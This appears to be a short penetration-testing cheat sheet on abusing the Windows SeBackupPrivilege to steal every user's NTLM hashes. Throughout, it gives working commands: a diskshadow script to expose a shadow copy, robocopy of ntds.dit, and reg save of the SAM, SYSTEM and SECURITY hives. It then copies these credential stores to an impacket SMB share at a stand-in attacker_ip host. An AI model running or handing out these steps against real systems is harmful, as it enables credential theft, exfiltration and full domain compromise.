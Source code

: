 # SeBackupPrivileges 
we can restore the backup files that contains the All system user NTLM Hash 

# Steps
1. Create a .dsh file and convert it
2. upload the compiler file
3. Disk shadow and robocopy of the files
4. save the files
5. Download it using the smbserver

# Create viper.dsh file and paste this
```language
set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```
# Convert and upload  it
```language
unix2dos viper.dsh

upload viper.dsh
```
# Make a Disk Shadow
```language
diskshadow /s viper.dsh
```
# Save the files
```language
robocopy /b x:\windows\ntds . ntds.dit
reg save hklm\system c:\windows\tasks\system
reg save hklm\sam c:\windows\tasks\sam
reg save hklm\security c:\windows\tasks\security
```
# Download it 
```language
#start a smb server
impacket-smbserver share ./ -smb2support -user 0xmr -pass ''

# connect it
net use \\attacker_ip\share /user:0xmr

# copy all files
copy sam, ntds.dit, system, security \\attacker_ip\share 
```
